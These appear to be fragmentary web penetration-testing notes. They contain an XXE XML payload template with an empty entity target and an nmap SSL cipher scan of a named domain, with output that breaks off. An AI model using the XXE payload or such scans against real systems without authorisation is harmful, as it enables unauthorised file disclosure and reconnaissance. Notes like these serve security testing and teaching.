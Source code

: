 ![](../media/Web%20Pentest_1.png)

XXE

Go to

Upload file xml with content:

<?xml version="1.0" encoding="ISO-8859-1"?>

<!DOCTYPE foo [

<!ELEMENT foo ANY >

<!ENTITY xxe SYSTEM "" >]><foo>&xxe;</foo>

Capture with burpsuite:

![](../media/Web%20Pentest_2.png)

Sensitive Data Exposure

Tuesday, August 2, 2022

9:56 PM

Checck header:

Check ssl strong:

$ nmap --script ssl-enum-ciphers -p 443 jumpnowtek.com

Starting Nmap 7.80SVN (  ) at 2019-12-03 15:50 EST

Nmap scan report for jumpnowtek.com (166.78.186.4)

Host is up (0.075s latency).

PORT    STATE SERVICE

443/tcp open  https

| ssl-enum-ciphers:

|   TLSv1.0:

|     ciphers:

|       TLS_ECDHE_RSA_WITH_AES_128_CBC_SHA (ecdh_x25519) - A

|       TLS_ECDHE_RSA_WITH_AES_256_CBC_SHA (ecdh_x25519) - A

|       TLS_DHE_RSA_WITH_AES_128_CBC_SHA (dh 2048) - A

|       TLS_DHE_RSA_WITH_AES_256_CBC_SHA (dh 2048) - A

|       TLS_RSA_WITH_AES_128_CBC_SHA (rsa 2048) - A
